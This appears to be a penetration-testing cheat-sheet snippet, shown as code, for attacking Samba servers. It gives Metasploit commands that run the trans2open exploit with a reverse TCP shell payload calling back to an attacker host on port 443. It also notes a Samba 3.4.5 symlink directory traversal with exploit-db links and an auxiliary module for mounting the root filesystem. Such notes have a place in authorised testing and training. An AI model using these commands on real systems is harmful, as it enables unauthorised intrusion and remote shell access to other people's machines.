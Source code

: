 ```bash
msf > use exploit/linux/samba/trans2open
set VERBOSE true
set PAYLOAD linux/x86/shell_reverse_tcp
set RHOST 10.10.x.x
set LPORT 443
set LHOST IP
exploit -j -z

#Samba 3.4.5 Symlink Directory Traversal
# You can mount the root fiilesystem to a share you can access
https://www.exploit-db.com/exploits/33599

# Using metasploit
https://www.exploit-db.com/exploits/33598
msf > use auxiliary/admin/smb/samba_symlink/traversal
```